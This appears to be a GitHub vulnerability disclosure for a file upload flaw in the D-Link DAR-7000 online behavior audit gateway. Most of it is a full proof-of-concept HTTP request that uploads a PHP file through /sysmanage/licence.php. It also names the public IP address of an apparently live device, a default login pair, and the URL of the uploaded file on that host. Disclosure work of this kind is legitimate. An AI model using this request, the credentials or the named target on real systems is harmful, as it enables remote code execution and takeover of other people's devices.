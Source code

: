 The D-LINK DAR-7000 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000  DAR V31R02B1413C

Vulnerability Path ：/sysmanage/licence.php

Ip：https://60.22.74.195:8443/

Default account password: test/ admin@123

poc:
```
POST /sysmanage/licence.php? HTTP/1.1
Host: 
Cookie: PHPSESSID=26a1775947167e57a44ae5a532938679
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 714
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="ck"

radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_tftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_ftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—

```
<img width="728" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/9cd9947c-a851-45b5-b4de-9a5442912f2f">

https://60.22.74.195:8443/home/upload/phpinfo.php

<img width="712" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/0fd3a389-dd5e-4524-bf37-b261c990a6fc">

